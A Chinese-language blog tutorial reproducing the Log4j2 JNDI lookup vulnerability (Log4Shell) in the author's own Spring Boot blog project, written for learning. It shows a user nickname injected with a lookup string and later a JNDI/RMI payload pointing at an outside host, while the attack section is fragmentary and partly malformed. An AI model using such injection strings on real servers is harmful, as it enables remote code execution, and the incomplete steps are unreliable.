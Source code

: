 大家好，我是陌溪。

昨天在蘑菇的群里，都是讨论关于 **log4j** 的安全漏洞，陌溪看了看他们的聊天内容，一句话：**核弹级的漏洞**。


![image-20211211101637119](images/image-20211211101637119.png)

此次漏洞是用于 **Log4j2** 提供的 **lookup** 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

攻击者可通过构造恶意请求利用该漏洞实现在目标服务器上执行任意代码。可导致服务器被黑客控制，从而进行页面篡改、数据窃取、挖矿、勒索等行为。建议使用该组件的用户第一时间启动应急响应进行修复。



## 什么是 lookup

我从 **Apache** **log4j2**的官网上，找到了关于 **lookup** 的介绍，地址如下：

> https://logging.apache.org/log4j/2.x/manual/lookups.html

一句话来概括：**lookup** 的主要功能就是提供另外一种方式以添加某些特殊的值到日志中，**以最大化松散耦合地提供可配置属性供使用者以约定的格式进行调用**。

例如：**JavaLookup** 允许使用 **java:** 前缀以方便的预格式化字符串形式检索 **Java** 环境信息。

```bash
# 获取java版本
java:version
# 获取java虚拟机版本
java:vm
```

## 漏洞查找

陌溪百度了一下，都是关于如何修复这个漏洞的，但是没有讲如何复现出这个漏洞的。

陌溪本着学习的态度，在蘑菇中寻找是否存在可能被注入的漏洞的地方，通过 **IDEA** 的检索很快发现，在 **mogu-web** 项目的拦截器里，会获取到用户的昵称，然后通过 **log** 日志打印出来。


![](images/image-20211211103106525.png)

## 漏洞复现

由于蘑菇博客项目使用的是 **SpringBoot** 默认的 **logback** ，不存在上述的漏洞。通过打印日志，可以看出没有任何效果。


![](images/image-20211211103331791.png)

下面，陌溪打算给蘑菇的日志更换成 **log4j2** 日志框架，首先修改 **pom.xml** 文件，然后加入下面的配置，首先排除掉 **SpringBootStarter** 里的默认日志，在引入我们今天的主角 **log4j2** 日志框架

```xml
<!-- 排除默认日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<!-- Log4j2 start 日志框架 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
<!-- Log4j2 end -->
```

然后再次运行本次代码，发现我们的编写的一段 **JavaLookUp** 字符串被转换成获取系统的配置了。


![image-20211211112402759](images/image-20211211112402759.png)

下面，我们启动蘑菇项目，然后修改自己的昵称，改成特殊的 **JavaLookUp** 语句：**${java:version}**


![image-20211211112738831](images/image-20211211112738831.png)

因为上面提到，蘑菇在拦截器中，会通过日志输出用户的昵称。

在门户修改完昵称后，再次查看日志，可以发现：昵称变成了 **Java** 版本号，说明我们的昵称配置已经生效了，并且输出了对应的 **Java** 版本


![image-20211211112845702](images/image-20211211112845702.png)

## 开始侵入

上面提到的 **JavaLookUp** 只是提供的一些日志获取系统变量的方法，对我们的系统其实没有多大影响，最多就导致系统获取的日志除了一些问题。

但是最致命的问题是，**LookUp** 是支持 **JNDI**，关于 **JNDI** 可以看下面的介绍：

**JNDI** ( Java Naming and Directory Interface, **Java** 命名和目录接口)是 **SUN** 公司提供的一种标准的 **Java** 命名系统接口，**JNDI** 提供统一的客户端 **API**，通过不同的访问提供者接口 **JNDI** 服务供应接口 **(SPI)** 的实现，由管理者将 **JNDI API** 映射为特定的命名服务和目录系统，使得 **Java** 应用程序可以和这些命名服务和目录服务之间进行交互。

通过 **JNDI** 相关的 **API** 中，还提供 **RMI** 的功能 ，下面是关于 **RMI** 的介绍：

**RMI** (Remote Method Invocation)远程方法调用是一种计算机之间对象互相调用对方函数，启动对方进程的一种机制，使用这种机制，某一台计算机上的对象在调用另外一台计算机上的方法时，使用的程序语法规则和在本地机上对象间的方法调用的语法规则一样。

首先，**我们在** SpringBoot 的官网，快速生成一个项目


![image-20211211114404537](images/image-20211211114404537.png)

然后导入到 **IDEA** 中，然后创建两个类 **RmiServer.java**





${jndi.rmi://192.168.12.1:8888/danger}





在注册服务前，输入命令start rmiregistry，会弹出以下方框



start rmiregistry



```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>

<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

